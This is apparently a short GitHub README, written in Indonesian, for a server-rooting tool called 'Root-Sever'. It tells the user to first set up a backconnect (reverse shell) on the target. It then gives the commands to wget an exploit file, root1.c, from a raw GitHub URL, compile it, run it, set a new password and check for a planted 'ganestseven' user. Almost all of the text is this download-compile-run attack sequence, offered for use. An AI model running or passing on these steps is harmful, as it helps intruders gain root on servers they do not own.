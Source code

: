 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
lalu compile file nya 
# comand nya
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
chmod +x g7
./g7
lalu buat password baru dan tunggu proses selsai (agak lama)
lau id ganestseven
selesai
